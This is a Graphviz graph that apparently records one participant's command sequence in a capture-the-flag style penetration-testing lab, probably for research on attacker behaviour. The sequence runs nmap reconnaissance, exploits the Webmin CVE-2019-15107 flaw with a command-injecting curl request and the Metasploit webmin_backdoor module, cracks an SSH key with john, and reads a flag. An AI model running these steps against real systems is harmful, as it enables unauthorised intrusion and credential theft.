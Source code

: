 // creating graph for user: 71
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 A0 M0 A1 "]
	3 [label="msfconsole A2 M2 "]
	4 [label="msfconsole V2 "]
	7 [label="msfconsole V2 "]
	8 [label="db_nmap 172.18.1.5 V0 "]
	11 [label="show exploits A8 M8 "]
	13 [label="ls A10 "]
	14 [label="chmod A15 "]
	15 [label="chmod +x 47293.sh A15 "]
	23 [label="cat 47293.sh A1 A9 A11 A12 A17 "]
	31 [label="curl -ks $URI'/password_change.cgi' -d 'user=wheel&pam=&expired=2&old=id A1 A4 A9 A11 A12 A17 "]
	32 [label="if [ $? -eq 0 ]; then echo '033[0;31mVULNERABLE!033[0m'; else echo '033[0;32mOK! (target is not vulnerable)033[0m'; fi A10 "]
	33 [label="ls A10 "]
	34 [label="cat CVE-2019-15107.sh A1 A9 A11 A12 A17 "]
	35 [label="cat CVE-2019-15107.sh http://172.18.1.5:10000 A1 A9 A11 A12 A17 "]
	37 [label="msfconsole V2 "]
	40 [label="msfconsole V2 "]
	41 [label="show exploit V8 "]
	42 [label="search CVE-2019-15107 A3 "]
	43 [label="use exploit/unix/webapp/webmin_backdoor  V8 "]
	44 [label="check A7 "]
	45 [label="set RHOSTS https://localhost:10000 A6 M6 "]
	46 [label="set RHOST https://localhost:10000 A6 "]
	47 [label="show options A5 M5 "]
	48 [label="set RHOST 172.18.1.5 A6 "]
	49 [label="show options V5 "]
	50 [label="check A7 "]
	51 [label="exploit V8 "]
	52 [label="check A7 "]
	53 [label="exploit V8 "]
	54 [label="set LHOST 0.0.0.0 V6 "]
	55 [label="exploit V8 "]
	56 [label="show A5 "]
	57 [label="show options V5 "]
	58 [label="exploit V8 "]
	59 [label="set LHOST 10.1.135.83 V6 "]
	60 [label="exploit V8 "]
	61 [label="msfconsole V2 "]
	62 [label="check A7 "]
	64 [label="use exploit/unix/webapp/webmin_backdoor V8 "]
	65 [label="set RHOST 172.18.1.5 A6 "]
	66 [label="set LHOST 10.1.135.83 V6 "]
	67 [label="check A7 "]
	68 [label="ssh 172.18.1.5 A16 "]
	69 [label="ssh 172.18.1.5:39680 A16 "]
	70 [label="ssh localhost:4444 A16 "]
	71 [label="ssh 127.0.0.1:4444 A16 "]
	72 [label="ssh 127.0.0.1 -p 4444 A16 "]
	73 [label="msfconsole V2 "]
	74 [label="use exploit/unix/webapp/webmin_backdoor  V8 "]
	75 [label="set RHOST 172.18.1.5 A6 "]
	76 [label="set LHOST 10.1.135.83 V6 "]
	77 [label="check A7 "]
	78 [label="exploit V8 "]
	79 [label="ssh 172.18.1.5 A16 "]
	80 [label="ssh kocm@172.18.1.5 A16 "]
	81 [label="ssh 172.18.1.5 A16 "]
	83 [label="john key A14 "]
	84 [label="john .-----BEGIN RSA PRIVATE KEY----- A14 "]
	90 [label="Bq2CuS5LcqbfVfl9737XeC+DNls/AmkLmYU/1NLKp1hWSpx0/dfJu725tDOtR6zB A10 "]
	136 [label="john --wordlist=-----BEGIN RSA PRIVATE KEY----- A14 M14 "]
	142 [label="Bq2CuS5LcqbfVfl9737XeC+DNls/AmkLmYU/1NLKp1hWSpx0/dfJu725tDOtR6zB A10 "]
	189 [label="john --wordlist=/usr/share/wordlists/rockyou.txt key V14 "]
	190 [label="/usr/share/john/ssh2john.py key A14 A16 "]
	191 [label="/usr/share/john/ssh2john.py key > key2 A14 A16 "]
	192 [label="john key@ A14 "]
	193 [label="john key2 A14 "]
	194 [label="john --wordlist=/usr/share/wordlists/rockyou.txt key@ V14 "]
	195 [label="john --wordlist=/usr/share/wordlists/rockyou.txt key2 V14 "]
	196 [label="cp key ./.ssh/id_rsa A16 "]
	198 [label="cd .ssh A16 "]
	199 [label="cat id_rsa A12 M12 A17 "]
	200 [label="ssh 10.1.17.4 A16 "]
	201 [label="ssh eve@sh 10.1.17.4 A16 M16 "]
	202 [label="ssh eve@10.1.17.4 V16 "]
	203 [label="ls A10 "]
	206 [label="ls A10 "]
	207 [label="cat key A1 A9 A11 A12 A17 "]
	209 [label="ssh eve@10.1.17.4 V16 "]
	210 [label="ls A10 "]
	212 [label="ls A10 "]
	213 [label="cat flag.txt A17 M17 "]
	0 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 11 [constraint=false]
	11 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 23 [constraint=false]
	23 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 37 [constraint=false]
	37 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 90 [constraint=false]
	90 -> 136 [constraint=false]
	136 -> 142 [constraint=false]
	142 -> 189 [constraint=false]
	189 -> 190 [constraint=false]
	190 -> 191 [constraint=false]
	191 -> 192 [constraint=false]
	192 -> 193 [constraint=false]
	193 -> 194 [constraint=false]
	194 -> 195 [constraint=false]
	195 -> 196 [constraint=false]
	196 -> 198 [constraint=false]
	198 -> 199 [constraint=false]
	199 -> 200 [constraint=false]
	200 -> 201 [constraint=false]
	201 -> 202 [constraint=false]
	202 -> 203 [constraint=false]
	203 -> 206 [constraint=false]
	206 -> 207 [constraint=false]
	207 -> 209 [constraint=false]
	209 -> 210 [constraint=false]
	210 -> 212 [constraint=false]
	212 -> 213 [constraint=false]
	rankdir=LR
}
